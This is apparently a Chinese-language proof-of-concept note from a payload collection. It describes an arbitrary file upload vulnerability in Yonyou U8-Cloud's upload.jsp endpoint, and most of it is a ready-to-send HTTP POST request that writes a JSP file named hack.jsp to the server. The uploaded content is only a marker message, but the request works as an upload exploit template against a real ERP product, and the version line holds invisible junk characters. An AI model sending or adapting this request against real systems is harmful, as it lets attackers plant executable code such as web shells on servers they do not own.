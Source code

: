 ### 漏洞描述：

用友U8-Cloud upload.jsp接口存在任意文件上传漏洞。

### 影响版本：

用友U8 Cloud‍‍‌‌‌‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

### Payload：
```
POST /linux/pages/upload.jsp HTTP/1.1
Host:host
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
filename: hack.jsp
Content-Length: 56

<% out.println("The website has vulnerabilities!!");%>
```
